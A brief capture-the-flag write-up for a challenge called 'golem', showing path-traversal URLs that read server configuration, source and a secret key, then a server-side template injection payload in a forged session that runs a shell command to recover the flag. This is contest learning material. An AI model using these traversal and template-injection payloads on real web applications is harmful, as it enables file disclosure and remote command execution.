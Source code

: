# golem

## LFI

`https://golem.asisctf.com/article?name=../../../../../../etc/nginx/sites-enabled/golem`

=>

    location /static/ {

        root /opt/serverPython/golem;
        expires 30d;
        add_header Pragma public;
        add_header Cache-Control &#34;public&#34;;

    }


`https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/server.py`

=>

    execfile('flag.py')
    execfile('key.py')

    FLAG = flag
    app.secret_key = key

    ...


    
https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/secret.py

=>

`secret key: 7h15_5h0uld_b3_r34lly_53cur3d`


## SSTI

use the secret key to let session['golem'] = `{{ config[\'RUNCMD\'](\'grep "ASIS" flag.py\',shell=True) }}`

=>

`ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

